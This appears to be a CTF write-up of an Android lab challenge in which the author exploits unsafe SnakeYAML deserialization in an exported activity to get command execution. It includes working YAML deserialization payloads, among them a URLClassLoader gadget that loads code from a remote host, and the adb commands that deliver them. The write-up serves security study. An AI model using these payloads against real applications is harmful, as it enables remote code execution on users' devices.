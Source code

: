 ```yaml
---
date: '2025-04-09T15:35:42+08:00'
title: 'MHL Config Editor'
tags:
    - MHL
    - Android CTF
---
```


## Challenge Description

> Welcome to the Config Editor Challenge! In this lab, you'll dive into a realistic situation involving vulnerabilities in a widely-used third-party library. Your objective is to exploit a library-induced vulnerability to achieve RCE on an Android application.
>
> [configeditor.apk](static/configeditor.apk)

## Solution

As usual, I started out by performing static analysis to read the code.

### Static Analysis

I started by looking into the `AndroidManifest.xml`.

```xml
<activity
    android:name="com.mobilehackinglab.configeditor.MainActivity"
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
    <intent-filter>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data android:scheme="file"/>
        <data android:scheme="http"/>
        <data android:scheme="https"/>
        <data android:mimeType="application/yaml"/>
    </intent-filter>
</activity>
```

There's only one activity and it has a intent filter which accept URI parameter.

```java
private final void handleIntent() {
    Intent intent = getIntent();
    String action = intent.getAction();
    Uri data = intent.getData();
    if (Intrinsics.areEqual("android.intent.action.VIEW", action) && data != null) {
        CopyUtil.INSTANCE.copyFileFromUri(data).observe(this, new MainActivity$sam$androidx_lifecycle_Observer$0(new Function1<Uri, Unit>() { // from class: com.mobilehackinglab.configeditor.MainActivity$handleIntent$1
            {
                super(1);
            }

            @Override // kotlin.jvm.functions.Function1
            public /* bridge */ /* synthetic */ Unit invoke(Uri uri) {
                invoke2(uri);
                return Unit.INSTANCE;
            }

            /* renamed from: invoke, reason: avoid collision after fix types in other method */
            public final void invoke2(Uri uri) {
                MainActivity mainActivity = MainActivity.this;
                Intrinsics.checkNotNull(uri);
                mainActivity.loadYaml(uri);
            }
        }));
    }
}
```

Moving on to `MainActivity` code, there's a `handleIndent` function where it will receive incoming intent and execute several function such as `CopyUtil.INSTANCE.copyFileFromUri` and `loadYaml`. 

```java
public final void loadYaml(Uri uri) {
    try {
        ParcelFileDescriptor openFileDescriptor = getContentResolver().openFileDescriptor(uri, "r");
        try {
            ParcelFileDescriptor parcelFileDescriptor = openFileDescriptor;
            FileInputStream inputStream = new FileInputStream(parcelFileDescriptor != null ? parcelFileDescriptor.getFileDescriptor() : null);
            DumperOptions $this$loadYaml_u24lambda_u249_u24lambda_u248 = new DumperOptions();
            $this$loadYaml_u24lambda_u249_u24lambda_u248.setDefaultFlowStyle(DumperOptions.FlowStyle.BLOCK);
            $this$loadYaml_u24lambda_u249_u24lambda_u248.setIndent(2);
            $this$loadYaml_u24lambda_u249_u24lambda_u248.setPrettyFlow(true);
            Yaml yaml = new Yaml($this$loadYaml_u24lambda_u249_u24lambda_u248);
            Object deserializedData = yaml.load(inputStream);
            String serializedData = yaml.dump(deserializedData);
            ActivityMainBinding activityMainBinding = this.binding;
            if (activityMainBinding == null) {
                Intrinsics.throwUninitializedPropertyAccessException("binding");
                activityMainBinding = null;
            }
            activityMainBinding.contentArea.setText(serializedData);
            Unit unit = Unit.INSTANCE;
            Closeable.closeFinally(openFileDescriptor, null);
        } finally {
        }
    } catch (Exception e) {
        Log.e(TAG, "Error loading YAML: " + uri, e);
    }
}
```

Looking into the `loadYaml` function, it seems to be something related to YAML deserialization where it will perform `load` and `dump` function.

```java
import org.yaml.snakeyaml.Yaml;
```

After looking into the imports, I noticed that the YAML is using `snakeyaml`. I then googled it and found some useful information such as [this](https://www.labs.greynoise.io/grimoire/2024-01-03-snakeyaml-deserialization/) and [this](https://github.com/google/security-research/security/advisories/GHSA-mjmj-j48q-9wg2) which it is possible to gain RCE. 

```java
public final class LegacyCommandUtil {
    public LegacyCommandUtil(String command) {
        Intrinsics.checkNotNullParameter(command, "command");
        Runtime.getRuntime().exec(command);
    }
}
```

Another thing is that there is a class and function `LegacyCommandUtil` where it is possible to execute command. I believe this will be used together with the YAML deserialization with `SnakeYAML`. Time to perform dynamic analysis to see how it actually works.

### Dynamic Analysis

I started by playing around with the application and provide some intent to meet the criteria.

```powershell
PS C:\> adb shell am start -n com.mobilehackinglab.configeditor/.MainActivity -a android.intent.action.VIEW -d "http://192.168.68.107:8001/test.yaml"
Starting: Intent { act=android.intent.action.VIEW dat=http://192.168.68.107:8001/... cmp=com.mobilehackinglab.configeditor/.MainActivity }
```

![alt text](img/index.png#center)

From what I understand, this process basically just deserialize it using `yaml.load` and serialize back it using `yaml.dump`. Based on [this article](https://www.labs.greynoise.io/grimoire/2024-01-03-snakeyaml-deserialization/), I tried to use the payload and see if its work.

```yaml
!!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[ !!java.net.URL ["http://192.168.68.107:8001/yeet"] ]] ]
```

```powershell
PS C:\> adb shell am start -n com.mobilehackinglab.configeditor/.MainActivity -a android.intent.action.VIEW -d "http://192.168.68.107:8001/test.yaml"
Starting: Intent { act=android.intent.action.VIEW dat=http://192.168.68.107:8001/... cmp=com.mobilehackinglab.configeditor/.MainActivity }
```

![alt text](img/index-1.png#center)

It seem's like something is wrong and the POC provided did not work. I then tried to understand how the YAML deserialization works and see what I could do. After understanding it, I noticed that it has something to do with classes and the `LegacyCommandUtil` has classes in it. I then craft a payload and try to execute the `LegacyCommandUtil` function.

```yaml
!!com.mobilehackinglab.configeditor.LegacyCommandUtil ["touch /sdcard/Documents/configeditorhacked.txt"]
```

```powershell
PS C:\> adb shell am start -n com.mobilehackinglab.configeditor/.MainActivity -a android.intent.action.VIEW -d "http://192.168.68.107:8001/hacked.yaml"
Starting: Intent { act=android.intent.action.VIEW dat=http://192.168.68.107:8001/... cmp=com.mobilehackinglab.configeditor/.MainActivity }
```

![alt text](img/index-2.png#center)

After a few attempt, I tried the yaml payload and it managed to rendered back in the page. I then checked it my RCE is successful or not.

```bash
beryllium:/sdcard/Documents # ls -la
total 0
-rw-rw---- 1 root everybody 0 2025-04-09 17:07 configeditorhacked.txt
```

This proof that the YAML deserialization executed the `LegacyCommandUtil` function and I managed to create a file in specific directory.

## Things I learned from this challenge

- YAML deserialization
- SnakeYAML CVE 